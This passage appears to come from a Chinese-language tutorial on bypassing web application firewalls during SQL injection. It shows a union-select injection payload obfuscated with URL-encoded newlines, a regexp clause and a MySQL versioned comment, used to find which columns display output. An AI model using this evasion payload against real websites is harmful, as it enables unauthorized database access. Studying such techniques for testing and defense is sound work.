 ![Alt text](image-42.png)   
根据上面的函数，拼接到语句中，弱化语句的攻击特征。
```shell
 -1' regexp '%0A%23'   /*!11145UniOn %0ASeLect*/ 1,2 --
```   
得到具体显示位信息。   